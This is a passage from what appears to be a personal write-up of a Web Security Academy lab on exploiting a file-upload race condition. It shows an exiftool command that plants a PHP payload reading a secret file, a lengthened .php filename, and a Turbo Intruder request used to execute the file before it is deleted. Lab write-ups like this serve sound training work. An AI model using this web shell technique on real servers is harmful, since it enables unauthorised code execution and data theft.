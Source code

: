 I set concurrentConnections=80 by trial and error, more was hindering the main upload request so I set to 80. Then I downloaded a random 500KB PNG file from the web and used exiftool to add this code to it and renamed it to a PHP file:

```
exiftool -comment="<?php echo file_get_contents('/home/carlos/secret'); ?>" diamond.php
```

then because of a line of code in vulnerable code in hint:

```php
$imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
```

I changed the name of the file to the longest to increase the file processing (even for a few milliseconds) for `strtolower` function to maximum to save myself some time for race condition:

```
9LKhNJGiTLcMURUGt9a5WulDgvZwvvGDUlnfmPzaglT7VoZcV0lwo4sXK1emCplNsJsf2LU4Wa1arKxmik9iN0pCb4xBhBJ7Id8Bn2Ay6RhWPd2uHyBhhTnCjU7wgdGJjYNBBptx2ky9k0kWHCqpe09UGryPKiaNFugvgEWHpmAOjXxRY7JpH50hbtmw4uZQ3L0k0W2DpYBvcYvgTsXIW2tGiPdN.php
```

this was the biggest name that windows let me to use. then I made the file upload ready but before that, I started burp turbo intruder with the above code on this request as a NULL payload:

```http
GET /files/avatars/9LKhNJGiTLcMURUGt9a5WulDgvZwvvGDUlnfmPzaglT7VoZcV0lwo4sXK1emCplNsJsf2LU4Wa1arKxmik9iN0pCb4xBhBJ7Id8Bn2Ay6RhWPd2uHyBhhTnCjU7wgdGJjYNBBptx2ky9k0kWHCqpe09UGryPKiaNFugvgEWHpmAOjXxRY7JpH50hbtmw4uZQ3L0k0W2DpYBvcYvgTsXIW2tGiPdN.php HTTP/1.1
Host: aca11f781e0864bac09904d8002e00ef.web-security-academy.net
Cookie: session=vPq6ob4pyKBosm73un9VIH47fzVFKaqo
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Dnt: 1
Sec-Gpc: 1
Te: trailers
Connection: close
```

then I hit upload on the web page in the browser to send the file, and after about one minute I could get some 200 responses in turbo intruder containing password for carlos! :)

<br>
#### Solution 2:  Web Security Academy's Solution
The Web Security Academy solved this lab in a better and more precise way that can be used in the future race condition situations without bombarding the server with many requests:

As you can see from the hint source code above, the uploaded file is moved to an accessible folder, where it is checked for viruses. Malicious files are only removed once the virus check is complete. This means it's possible to execute the file in the small time-window before it is removed.
